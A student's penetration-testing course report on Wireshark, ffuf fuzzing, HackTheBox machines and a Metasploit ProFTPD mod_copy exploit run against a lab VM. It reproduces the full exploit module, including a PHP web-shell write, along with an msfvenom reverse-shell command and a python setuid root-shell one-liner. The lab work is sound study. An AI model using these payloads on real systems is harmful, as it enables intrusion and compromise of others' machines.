






<a name="h3---sniffer"></a>
# 👃 H3 - Sniffer

<a name="contents"></a>
## 📑 Contents

- [👃 H3 - Sniffer](#h3---sniffer)
  - [📑 Contents](#contents)
  - [📋 Assignments](#assignments)
  - [📝 X) Read and Summarize Task](#x-read-and-summarize-task)
    - [🔗 Wireshark Tricks](#wireshark-tricks)
    - [🔍 Fuzzing with ffuf](#fuzzing-with-ffuf)
  - [🎯 A) Choose an Attack](#a-choose-an-attack)
  - [📜 B) Source Code Analysis](#b-source-code-analysis)
  - [🌐 C) Network Sniffing](#c-network-sniffing)
  - [📂 D) Fuzzing](#d-fuzzing)
  - [🔒 E) HackTheBox Challenge](#e-hackthebox-challenge)
  - [✏️ F) Optional, Easy: Change Default Editor to Micro](#f-optional-easy-change-default-editor-to-micro)
  - [🛠️ G) Optional: Install and Solve FuffMe](#g-optional-install-and-solve-fuffme)
  - [🔍 H) Optional: Analyze Remote Access Enhancement](#h-optional-analyze-remote-access-enhancement)
  - [🔓 I) Optional, Hard: Find vsftpd Backdoor in Source Code](#i-optional-hard-find-vsftpd-backdoor-in-source-code)
  - [🛠️ Tools and Hardware Used](#tools-and-hardware-used)
  - [📂 Resources](#resources)


<a name="assignments"></a>
## 📋 Assignments

<details> <summary>Click to expand</summary>
X) Read and Summarize: A few bullet points are enough.

Popov 2024: Hacktricks: Wireshark Tricks
Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf
A) Choose an Attack: Select a ready-made attack that works on a local target, like Metasploitable, and demonstrate its functionality.

Normal option: Use an attack from Metasploit (not vsftpd backdoor).
Easier option: vsftpd backdoor from Metasploit (covered in class).
Harder option: Find an attack in exploitdb using searchsploit.
B) Source: Explain and analyze the functionality of your chosen attack from the source code.

C) Sniff Sniff: Explain and evaluate the behavior of your chosen attack using a network sniffer. Consider the visibility of the attack or control channel on the network.
(Optional bonus: include a pcap file of your recording).

D) Fuzz: Solve dirfuz-1 from Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf.

E) HackTheBox: Solve 1-2 machines on HackTheBox. Choose machines suitable to your skill level.

Optional

F) Easy: Change the default editor in Metasploit to micro using the setg setting.
G) Install and Solve FuffMe: Install the FuffMe practice target and complete its exercises (Karvinen 2023: Fuffme - Install Web Fuzzing Target on Debian).
H) Analyze Remote Access Enhancement: Use a sniffer to analyze how session upgrade (session -u 1) works in the vsftpd backdoor attack.
I) Hard: Find the vsftpd backdoor in its source code.
</details>

<a name="x-read-and-summarize-task"></a>
### 📝 X) Read and Summarize Task

<a name="wireshark-tricks"></a>
#### 🔗 :shark: Wireshark Tricks

https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills

Tips and tricks to improve wireshark usage

- Analyze -> Expert information will give a good overview of packets analyzed
- Statistics -> Resolved Addresses gives quick info about resolved MAC:s including hardware manufacturer OUI:s (https://www.wireshark.org/tools/oui-lookup.html)
- Statistics -> Protocol hierarchy shows info about protocols used in packets
- Statistics -> Endpoints shows summary of endpoint ip addresses 
- Statistics -> DNS gives info about dns requests
- Statistics -> I/O Graph shows packets/second graph
- Article shows additional tips about filtering and search(ctrl+f) domain identification enhancement

<a name="fuzzing-with-ffuf"></a>
#### 🔍 Fuzzing with ffuf

Fuzzing is similiar to brute forcing but we are not cracking hashes but finding directories, commands, subdomains etc. on websites.

ffuf is considered the fastest fuzzing tool currently.

More about this in tasks below

<a name="a-choose-an-attack"></a>
## 🎯 A) Choose an Attack

Some failed/wip attempts:
<details>

Decided to try to find another attack on metasploitable3


whats CUPS?


copy the attack python code from exploitdb

https://www.exploit-db.com/exploits/41233


create payload, using port 5555

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.104 LPORT=5555 -f elf > /tmp/x86reverseshell.so
```


listening on port 5555
```
nc -lvnp 5555
```

Cant get script to work, moving on


Browsing the server http side, lets look at /drupal

source code shows its running drupal 7


give up, return later..


</details>


### Searching proftp in msfconsle

found potential exploit for proftpd, spent some time looking into configs. could not get it to work

```
show options
```


after setting correct SITEPATH the exploit works

```
use unix/ftp/proftpd_modcopy_exec

set RHOST 192.168.56.105

set LHOST 192.168.56.104

set LPORT 5665

set SITEPATH /var/www/html
```


```run``` to start exploit, after inside, i test with commands whoami and touch testi3.txt


<a name="b-source-code-analysis"></a>
## 📜 B) Source Code Analysis

https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/ftp/proftpd_modcopy_exec.rb

```diff
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework 
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking # exploit reliability

+# metasploit modules / libraries
  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::FileDropper

+# def initialize contains mostly configurations and info
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'ProFTPD 1.3.5 Mod_Copy Command Execution',
        'Description' => %q{
          This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
          Any unauthenticated client can leverage these commands to copy files from any
          part of the filesystem to a chosen destination. The copy commands are executed with
          the rights of the ProFTPD service, which by default runs under the privileges of the
          'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
          directory, PHP remote code execution is made possible.
        },
        'Author' => [
          'Vadim Melihow', # Original discovery, Proof of Concept
          'xistence <xistence[at]0x90.nl>' # Metasploit module
        ],
        'License' => MSF_LICENSE,
        'References' => [
          [ 'CVE', '2015-3306' ],
          [ 'EDB', '36742' ],
          [ 'URL', 'http://bugs.proftpd.org/show_bug.cgi?id=4169' ]
        ],
        'Privileged' => false,
        'Platform' => [ 'unix' ],
        'Arch' => ARCH_CMD,
        'Payload' => {
          'BadChars' => '',
          'Compat' => {
            'PayloadType' => 'cmd',
            'RequiredCmd' => 'generic gawk python perl netcat'
          }
        },
        'Targets' => [
          [ 'ProFTPD 1.3.5', {} ]
        ],
        'DisclosureDate' => '2015-04-22',
        'DefaultTarget' => 0,
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [ARTIFACTS_ON_DISK, IOC_IN_LOGS]
        }
      )
    )

+# settings for http and ftp ports, target url, sitepath
    register_options([
      OptPort.new('RPORT', [true, 'HTTP port', 80]),
      OptPort.new('RPORT_FTP', [true, 'FTP port', 21]),
      OptString.new('TARGETURI', [true, 'Base path to the website', '/']),
      OptString.new('TMPPATH', [true, 'Absolute writable path', '/tmp']),
      OptString.new('SITEPATH', [true, 'Absolute writable website path', '/var/www'])
    ])
  end

  def ftp_port
    datastore['RPORT_FTP']
  end

+# check connection + if target is vulnerable
  def check
    # open tcp connection to server
    sock = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => ftp_port)

    # failed to connect
    if sock.nil?
      return CheckCode::Unknown("#{rhost}:#{ftp_port} - Failed to connect to FTP server")
    end

    vprint_status("#{rhost}:#{ftp_port} - Connected to FTP server")

    # Set 30 second timeout to allow remote server time to perform reverse DNS lookup
    res = sock.get_once(-1, 30)

    unless res && res.include?('220')
      return CheckCode::Safe("#{rhost}:#{ftp_port} - Failure retrieving ProFTPD 220 OK banner")
    end

    sock.puts("SITE CPFR /etc/passwd\r\n")
    res = sock.get_once(-1, 10)

    if res.nil?
      return CheckCode::Unknown("#{rhost}:#{ftp_port} - Failed to connect to FTP server")
    end

    if res.include?("500 'SITE CPFR' not understood")
      return CheckCode::Safe("#{rhost}:#{ftp_port} - SITE CPFR command not supported")
    end

    if res.include?('530')
      return CheckCode::Safe("#{rhost}:#{ftp_port} - SITE CPFR command requires authentication.")
    end

    if res.include?('350')
      return CheckCode::Appears("#{rhost}:#{ftp_port} - Unauthenticated SITE CPFR command was successful")
    end

    CheckCode::Safe
  ensure
    sock.close unless sock.nil?
  end

+# this is the exploit part
  def exploit
    get_arg = rand_text_alphanumeric(5..7)  # gen random get param name
    payload_name = rand_text_alphanumeric(5..7) + '.php' # generate random php file for payload

+    # connect to server ftp
    sock = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => ftp_port)

    if sock.nil?
      fail_with(Failure::Unreachable, "#{rhost}:#{ftp_port} - Failed to connect to FTP server")
    end

    print_status("#{rhost}:#{ftp_port} - Connected to FTP server")

    # Set 30 second timeout to allow remote server time to perform reverse DNS lookup
    res = sock.get_once(-1, 30)
    unless res && res.include?('220')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure retrieving ProFTPD 220 OK banner")
    end

    print_status("#{rhost}:#{ftp_port} - Sending copy commands to FTP server")

+    # copying php to targetr
    sock.puts("SITE CPFR /proc/self/cmdline\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('350')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying from /proc/self/cmdline")
    end

+    # writing payload php file to temp file
    sock.put("SITE CPTO #{datastore['TMPPATH']}/.<?php passthru($_GET[\'#{get_arg}\']);?>\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('250')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying to temporary payload file")
    end

+    # copy payload to SITEPATH
    sock.put("SITE CPFR #{datastore['TMPPATH']}/.<?php passthru($_GET[\'#{get_arg}\']);?>\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('350')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying from temporary payload file")
    end

+    # was stuck in this part before fixing SITEPATH
    sock.put("SITE CPTO #{datastore['SITEPATH']}/#{payload_name}\r\n")
    res = sock.get_once(-1, 10)
    unless res && res.include?('250')
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure copying PHP payload to website path, directory not writable?")
    end

    sock.close

    # 
    register_file_for_cleanup("#{datastore['SITEPATH']}/#{payload_name}")

+    # execute the payload 
    uri = normalize_uri(target_uri.path, payload_name)
    print_status("Executing PHP payload #{uri}")
    res = send_request_cgi!(
      'uri' => uri,
      'vars_get' => { get_arg => "nohup #{payload.encoded} &" }
    )

    unless res && res.code == 200
      fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure executing payload")
    end
  end
end
```

<a name="c-network-sniffing"></a>
## 🌐 C) Network Sniffing the attack

Starting record on eth0 in wireshark, running the above exploit in msfconsole, waiting for session to open. run whoami and touch testi3.txt, end recording.


Follow TCP on the traffic to ip ending 105, blue text is response, red is sent.

### first stream


Checking host and shipping payload

- ftp banner return
- site cpfr copies payload to tmp file
- specify destination payload file in /tmp
- site cpfr, copy the payload
- site cpto, move payload to webdir (SITEPATH)


### Second stream:


- Run payload

### Third stream for running payload and opening session, blue text is sent packet, red response.




- first echo parts to verify connection/access?

- second part for running the exploit inside SITEPATH
- chekc its working?

- third part dleting payload

- session active, whoami with response, touch testi3.txt

<a name="d-fuzzing"></a>
## 📂 D) Fuzzing

Already completed dirfuzt-0 & -1 in app hacking course last week [here](https://github.com/lansiri/AppHackingCourse-24/blob/main/h2.md#%EF%B8%8F-c-solving-dirfuzt-1), doing the optional fuffme task @G)


<a name="e-hackthebox-challenge"></a>
## 🔒 E) HackTheBox Challenge

Starting point tier 0 and tier 1 free machines completed




Going for lab machine

#### Cap machine


this is a guided target, with several tasks. no hints used


already have too much stored in metasploit db, starting with fresh workspace


to complete first task i run `nmap -sV 10.10.10.245`

3 ports open


next task is to enter the web browser and run a "security napshot" and enter the directory data


Next task is to find other users pcap files, and find a pcap with vulnerable data. went through data/1-10 nothing good found, then entered data/0 found pcap file with a tcp stream to ftp


going into ftp downloading intresting file





found first flag, next task is to get root access

also downloaded lpe.sh from target, looks intresting i want to run it on the target.

Logging in with nathans credentials with ssh


the tool seems very useful showing lots of possible vulnerabilities

one big red flag found:


starting root shell with suid binary

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```



Found root flag


#### Greenhorn machine


nmap shows following:


lets go see what http side has open


its redirecting to dns greenhorn.htb, after adding it to etc/hosts the site works, had similiar task in ffufme so i think i should fuzz this host


while fuzz is running ill take a bite at the login


sql injections are not working, fuzzing meanwhile found some .htaccess files

tried to open them, no luck. tried to access other files with BAD LUCK


#### Chemistry machine

stuck/wip

<details>


starting with nmap


port 5000 is intresting, what could it be?

browsed some exploits about port 5000 upnp, tried some but didnt work out of the box, 


doing more research..

found http up on port 5000


sql injections not working, but i can register an account and login


does not accept php/php3/php4/phtml etc files, only cif

theres an example cif file linked on the form page:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

tried inserting php in different spots with different tags but not yet working..

</details>

#### Some labs machines stuck/work in progress
<details>


started with nmap


trying to open ftp


Choosing a targert on labs


some recon:

```
db_nmap -a 10.10.11.35
```


Doing some google, whats kpasswd5? nvm its of kerberos, mb not important.

Lets  knock on other doors


<a name="f-optional-easy-change-default-editor-to-micro"></a>
## ✏️ F) Optional, Easy: Change Default Editor to Micro

micro already installed, setting to default with `select-editor`


edit still opens vim in msfconsole.


</details>

<a name="g-optional-install-and-solve-fuffme"></a>
## 🛠️ G) Optional: Install and Solve FuffMe

### Setup target

Fuffme 
http://ffuf.me/
 https://terokarvinen.com/2023/fuffme-web-fuzzing-target-debian/

Installing the target docker


cloning repo and building 


running the container, curl to see that its up


### Basic ffuf

Most basic form of fuzzing a dir

```
ffuf -w ~/wordlists/common.txt -u http://127.0.0.1/cd/basic/FUZZ
```

`-w` wordlist 
`-u` host/address with **FUZZ** to indicate what part we fuzz



Found class and development.log

### Recursion ffuf

`-recursion` enables recursive fuzz, if directory is found it scans inside the found folder also

```
ffuf -w ~/wordlists/common.txt -recursion -u http://ffuf.me/cd/recursion/FUZZ
```


We initiated fuzz in /recursion/ directory. ffuf finds admin dir, and recursively users dir + users/96

### Content discovery

`-e` enables extension types to be added to fuzz example `-e .php,.txt`


Found *users.log* in log dir

### Result filtering by size

For getting more accurate and faster results, we can filter the result by response sizes, first doing normal fuzz

```
ffuf -w ~/wordlists/common.txt -u http://localhost/cd/no404/FUZZ
```

We get a huge list of results


now we want to hide the status 200 with size 669, since they are false hits. we use the -fs command

```
ffuf -w ~/wordlists/common.txt -u http://localhost/cd/no404/FUZZ -fs 669
```


**Found** secret

### Param mining

Fuzzing for parameters with specific wordlists

```
ffuf -w ~/wordlists/parameters.txt -u http://localhost/cd/param/data?FUZZ=1
```


found debug param

### Rate limiting

Avoid getting banned or flagged for too many actions by limiting the fuzzing speed

```
ffuf -w ~/wordlists/common.txt -t 5 -p 0.1 -u http://ffuf.test/cd/rate/FUZZ -mc 200,429
```
`-p 0.1` adds 0.1 sec pause inbetween requests


**Found** oracle

### Pipes

Custom FUZZing with | pipes |

```
seq 1 1000 | ffuf -w - -u http://localhost/cd/pipes/user?id=FUZZ
```
fuzzes with numbers 1-1000 


**Found** 657

Fuzzing 1-1000 encoded to base64, [source](imagesh3/image-13.png)

```
1 1000 | while read num; do echo -n "$num" | base64; done | ffuf -w - -u http://localhost/cd/pipes/user2?id=FUZZ
```


### VHhost subdomain fuzz

```
ffuf -w ~/wordlists/subdomains.txt -H "Host: FUZZ.ffuf.me" -u http://localhost
```

filtering size 1495

```
ffuf -w ~/wordlists/subdomains.txt -H "Host: FUZZ.ffuf.me" -u http://localhost -fs 1495
```


**Found redhat**

<a name="h-optional-analyze-remote-access-enhancement"></a>
## 🔍 H) Optional: Analyze Remote Access Enhancement

upgrading to meterpreter 

sourcecode:
https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/modules/post/multi/manage/shell_to_meterpreter.rb

wireshark


there are so many packets, seems hard to read. trying to filter something out

maybe length 66 packets are just for connection?, ill filter those out

`tcp.stream eq 1 && frame.len > 66`


wireshark can show what part of packets are ports and ips etc, but the datapart needs to be decoded? stopped here


<a name="i-optional-hard-find-vsftpd-backdoor-in-source-code"></a>
## 🔓 I) Optional, Hard: Find vsftpd Backdoor in Source Code

Already read some of the spoilers to this during class last week.

According to some sources the backdoor was "unintentionally" added

https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/

the backdoor code:


the ```else if``` section contains 0x3A & 0x29 those are ":" ")"

if smiley face found in username, it runs function vsf_sysutil_extra();, 

vsf_sysutil_extra


this function opens the backdoor on port 6200

<a name="tools-and-hardware-used"></a>
## 🛠️ Tools and Hardware Used
- Hardware: AMD 5900X, RTX 3080, 32GB RAM

<a name="resources"></a>
## 📂 Resources

https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/

https://terokarvinen.com/tunkeutumistestaus/

http://ffuf.me/

https://terokarvinen.com/2023/fuffme-web-fuzzing-target-debian/

https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills

https://github.com/lansiri/AppHackingCourse-24/blob/main/h2.md#%EF%B8%8F-c-solving-dirfuzt-1

https://app.hackthebox.com/